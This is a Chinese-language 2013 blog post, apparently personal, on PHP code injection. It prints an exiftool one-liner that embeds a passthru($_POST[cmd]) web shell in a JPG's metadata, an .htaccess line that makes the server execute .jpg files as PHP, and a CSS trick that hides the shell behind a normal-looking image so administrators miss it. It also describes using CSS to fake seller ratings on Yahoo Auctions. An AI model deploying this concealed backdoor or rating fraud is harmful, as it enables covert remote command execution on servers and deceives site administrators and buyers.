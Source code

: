 ```yaml
---
layout: post
title: "PHP Code Injection"
date: 2013-05-11 10:50
comments: true
categories: Security
---
```


先前提到的 [Exiftool][Exiftool] 可以用來修改Image Metadata Tag的資料。

但當網頁加入 .htaccess

    AddHandler  application/x-httpd-php .jpg

會導致讀取 http://target/image.jpg 以html/txt去讀取，

雖然因此能正確執行php，不過要是有其他使用者/管理者來檢查，

發現讀取 http://target/image.jpg 都是亂碼，不就漏餡了嘛？

如圖

![image upload][imageup1]

所以就想了個trick來掩蓋這個問題，

透過html css，將亂碼字設成透明，並加入&lt;img&gt;tag來讓圖片「看起來」是正常的

    exiftool -DocumentName='<?php if(!isset($_POST[cmd])) {echo "<body style=\"color:rgba(0,0,0,0)\"><img style=\"position:absolute;top:0;left:0;\" src=\"http://image.url\"/></body>";}else{passthru($_POST[cmd]);} __halt_compiler();?>' apple.jpg

當中的PHP  code是這樣子的，

    <?php 
        if(!isset($_POST[cmd])) {
            echo "<body style=\"color:rgba(0,0,0,0)\">"
            echo "<img style=\"position:absolute;top:0;left:0;\" src=\"http://image.url\"/></body>";
        }else{
            passthru($_POST[cmd]);
        } 
        __halt_compiler();
    ?>

若直接瀏覽圖片網址，如圖，會顯示出一個圖片

![phpinject1][phpinject1]

只有當 POST cmd=XX 到頁面上時，才會正確執行passthru($cmd)！

![phpinject2][phpinject2]

--- 

其實這個想法就跟淘寶前陣子很多人在用的漏洞一樣，

使用者可以自定義CSS，而導致透過CSS來假造賣家評價，來騙取使用者，

前陣子我和[dm4][dm4] 在Yahoo 拍賣也透過一樣的手法，

來做過評價的偽裝，雖然簡單但可以騙取到不少使用者的信任。

[Exiftool]: /blog/2013/02/27/image-exif-tool/
[imageup1]: /images/imageup1.png "image upload"
[phpinject1]: /images/phpinject1.png "phpinjectimage"
[phpinject2]: /images/phpinject2.png "phpinjectimage"
[dm4]: http://blog.dm4.tw 
